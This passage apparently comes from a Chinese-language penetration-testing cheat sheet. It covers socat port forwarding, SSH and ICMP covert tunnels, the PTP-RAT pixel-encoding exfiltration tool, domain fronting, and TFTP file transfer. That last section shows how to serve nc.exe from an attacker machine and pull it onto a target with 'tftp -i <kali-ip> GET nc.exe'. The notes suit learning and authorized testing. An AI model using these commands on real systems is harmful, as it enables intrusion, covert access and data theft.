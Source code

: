 - **socat**
    ```
    socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080
    ```

---

### 隐蔽隧道

**ICMP**
- **文章**
    - [ICMP隐蔽隧道从入门到精通](https://www.anquanke.com/post/id/152046)

**SSH**
```bash
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```

---

### 侧信道

**工具**
- **PTP-RAT**
    - https://www.pentestpartners.com/security-blog/exfiltration-by-encoding-data-in-pixel-colour-values/
    - https://github.com/pentestpartners/PTP-RAT

---

### 域前置

`Domain fronting`

**文章**
- [【安全研究】Domain fronting域名前置网络攻击技术](https://mp.weixin.qq.com/s/aK3-Kofj7HdJ6BKhO3GVZA)

---

## 文件传输

**tftp**

基于 udp,端口为 69

- **攻击端起 tftp**
    ```bash
    mkdir /tftp
    atftpd --daemon --port 69 /tftp
    cp /usr/share/windows-binaries/nc.exe /tftp/
    chown -R nobody /tftp
    ```

- **目标机**
    ```bash
    tftp -i <kali-ip> GET nc.exe
    ```

---